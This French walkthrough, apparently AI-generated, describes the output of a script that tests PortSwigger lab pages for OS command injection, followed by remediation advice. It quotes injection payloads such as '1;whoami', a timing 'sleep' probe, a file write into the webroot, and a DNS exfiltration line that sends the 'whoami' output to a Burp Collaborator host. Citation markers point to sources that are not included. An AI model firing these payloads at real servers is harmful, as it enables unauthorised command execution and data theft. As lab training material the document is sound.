 # MANPAGE

Voici un **exemple exhaustif de l’exécution du script OS Command Injection PortSwigger**, illustrant chaque étape, le comportement attendu, et la logique de contrôle, en s’appuyant sur les scénarios et techniques recommandés par PortSwigger[1][2][4][5][8].

---

### 1. Test d'injection OS (commande visible dans la réponse)

```
------------------------------------------------------
[1] Test d'injection OS (commande visible dans la réponse)
  [+] Commande exécutée avec séparateur ';' !
www-data
```
*Le script envoie des payloads comme `1;whoami` dans `productId`. La réponse contient le nom d’utilisateur du serveur (`www-data`, `root`, etc.), confirmant une injection directe classique, comme attendu dans les labs simples[2][4][5].*

---

### 2. Test d'injection aveugle par timing

```
------------------------------------------------------
[2] Test d'injection aveugle par timing
  [+] Injection aveugle détectée par délai avec ';' (délai 5 s) !
```
*Le script envoie un payload comme `1;sleep 5` et mesure le temps de réponse. Un délai significatif (ici 5 secondes) indique une vulnérabilité d’injection aveugle, typique des labs blind OS injection[1][6].*

---

### 3. Test d'injection out-of-band (OAST/DNS exfiltration)

```
------------------------------------------------------
[3] Test d'injection out-of-band (OAST/DNS exfiltration)
  [Info] Vérifiez sur Burp Collaborator ou votre serveur DNS si une requête test.your-collaborator-id.burpcollaborator.net a été reçue.
  [Info] Vérifiez sur Burp Collaborator ou votre serveur DNS si une requête test.your-collaborator-id.burpcollaborator.net a été reçue.
  [Info] Vérifiez sur Burp Collaborator ou votre serveur DNS si une requête test.your-collaborator-id.burpcollaborator.net a été reçue.
  [Info] Vérifiez sur Burp Collaborator ou votre serveur DNS si une requête test.your-collaborator-id.burpcollaborator.net a été reçue.
```
*Le script injecte des commandes comme `1;nslookup test.<OAST_DOMAIN>`. Si une requête DNS est reçue sur Burp Collaborator, cela confirme une injection out-of-band, vue dans les labs avancés PortSwigger[1][8].*

---

### 4. Exfiltration de données via OAST (whoami dans DNS)

```
------------------------------------------------------
[4] Exfiltration de données via OAST (whoami dans DNS)
  [Info] Vérifiez sur Burp Collaborator si une requête <user>.your-collaborator-id.burpcollaborator.net a été vue (le nom d'utilisateur du serveur).
  [Info] Vérifiez sur Burp Collaborator si une requête <user>.your-collaborator-id.burpcollaborator.net a été vue (le nom d'utilisateur du serveur).
  [Info] Vérifiez sur Burp Collaborator si une requête <user>.your-collaborator-id.burpcollaborator.net a été vue (le nom d'utilisateur du serveur).
  [Info] Vérifiez sur Burp Collaborator si une requête <user>.your-collaborator-id.burpcollaborator.net a été vue (le nom d'utilisateur du serveur).
```
*Le script injecte `1;nslookup \`whoami\`.OAST_DOMAIN` pour exfiltrer la sortie de `whoami` via DNS. Si Burp Collaborator reçoit une requête de type `www-data.OAST_DOMAIN`, l’exfiltration est réussie[8].*

---

### 5. Exfiltration de données via fichier dans le webroot

```
------------------------------------------------------
[5] Exfiltration de données via fichier dans le webroot
  [+] Fichier exfiltré trouvé à https://<your-lab>.web-security-academy.net/whoami.txt :
www-data
```
*Le script injecte `1;whoami > /var/www/html/whoami.txt` puis tente de récupérer le fichier. Si le contenu du fichier (`www-data`, etc.) est accessible, l’exfiltration par redirection de sortie est confirmée, comme dans les labs PortSwigger[1][8].*

---

### 6. Conseils/remédiation

```
------------------------------------------------------
[Remédiation & Conseils]
- Ne jamais concaténer d'entrée utilisateur dans des commandes système.
- Utilisez des API système sécurisées (ex: execve, pas system/sh).
- Filtrez et validez strictement toutes les entrées utilisateur.
- Pour les labs PortSwigger, testez tous les séparateurs et vecteurs (timing, OAST, redirection, etc.).
- Documentation PortSwigger : https://portswigger.net/web-security/os-command-injection
```
*Le script rappelle les bonnes pratiques de sécurisation recommandées par PortSwigger[1].*

---

### 7. Synthèse

```
------------------------------------------------------
[SYNTHÈSE]
1. Injection directe (commande dans la réponse).
2. Injection aveugle (timing/sleep).
3. Injection out-of-band (OAST/DNS).
4. Exfiltration de données (DNS, fichier webroot).
5. Contrôle automatisé ou semi-automatisé de la réponse.
6. Conseils de remédiation PortSwigger.
------------------------------------------------------
```
